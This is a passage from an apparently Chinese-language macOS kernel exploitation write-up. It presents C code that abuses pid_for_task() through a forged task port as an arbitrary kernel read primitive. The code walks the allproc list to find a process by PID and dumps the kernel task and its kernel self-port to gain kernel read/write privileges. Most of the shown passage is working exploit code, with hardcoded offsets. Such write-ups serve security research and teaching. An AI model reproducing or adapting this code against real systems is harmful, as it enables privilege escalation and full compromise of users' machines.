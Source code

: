 你可以实际追踪一下像 pid_for_task() （获取PID）这样的进程，并找到具有所需 PID 的进程。

使用的代码如下：



```
uint64_t get_proc_addr(uint64_t pid, uint64_t kernel_addr, void* fake_task, mach_port_t* manipulated_port)`{`
    uint64_t allproc_real_addr = 0xffffff8000ABB490 - 0xffffff8000200000 + kernel_addr;
    
    uint64_t pCurrent = allproc_real_addr;
    uint64_t pNext = pCurrent;
    while (pCurrent != NULL) `{`
        int nPID = 0;    
        *(uint64_t*) (fake_task + TASK_INFO_GAP) = pCurrent;
        pid_for_task(manipulated_port, (int32_t*)&amp;nPID);
        if (nPID == pid) `{`
            return pCurrent;
        `}`
        else`{`
            *(uint64_t*) (fake_task + TASK_INFO_GAP) = pCurrent - 0x10;
            pid_for_task(manipulated_port, (int32_t*)&amp;pNext);
            *(uint64_t*) (fake_task + TASK_INFO_GAP) = pCurrent - 0x0C;
            pid_for_task(manipulated_port, (int32_t*)(((uint64_t)(&amp;pNext)) + 4));
            pCurrent = pNext;
        `}`
    `}`
`}`
```

**<br>**

**（6）获取内核权限（AAR/AAW）**

为了提升权限，内核进程必须获取的信息是端口特权和内核 task。

使用的代码如下：



```
dumpdata* get_kernel_priv(uint64_t kernel_process, uint64_t* fake_port, void* fake_task, mach_port_t* manipulated_port)`{`
    dumpdata* data = (dumpdata *)malloc(sizeof(dumpdata));
    data-&gt;dump_port = malloc(0x1000);
    data-&gt;dump_task = malloc(0x1000);
    uint64_t kern_task = 0;
    *(uint64_t*) (fake_task + TASK_INFO_GAP) = (kernel_process + 0x18) - 0x10 ;
    pid_for_task(manipulated_port, (int32_t*)&amp;kern_task);
    *(uint64_t*) (fake_task + TASK_INFO_GAP) = (kernel_process + 0x1C) - 0x10;
    pid_for_task(manipulated_port, (int32_t*)(((uint64_t)(&amp;kern_task)) + 4));
    uint64_t itk_kern_sself = 0;
    *(uint64_t*) (fake_task + TASK_INFO_GAP) = (kern_task + ITK_KERN_SSELF_GAP_IN_TASK) - 0x10;
    pid_for_task(manipulated_port, (int32_t*)&amp;itk_kern_sself);
    *(uint64_t*) (fake_task + TASK_INFO_GAP) = (kern_task + ITK_KERN_SSELF_GAP_IN_TASK + 4) - 0x10;
    pid_for_task(manipulated_port, (int32_t*)(((uint64_t)(&amp;itk_kern_sself)) + 4));
    data-&gt;dump_itk_kern_sself = itk_kern_sself;
    for (int i = 0; i &lt; 256; i++) `{`
        *(uint64_t*) (fake_task + TASK_INFO_GAP) = (itk_kern_sself + i*4) - 0x10;
        pid_for_task(manipulated_port, (int32_t*)(data-&gt;dump_port + (i*4)));
    `}`
    for (int i = 0; i &lt; 256; i++) `{`
        *(uint64_t*) (fake_task + TASK_INFO_GAP) = (kern_task + i*4) - 0x10;
        pid_for_task(manipulated_port, (int32_t*)(data-&gt;dump_task + (i*4)));
    `}`
    return data;
`}`
```
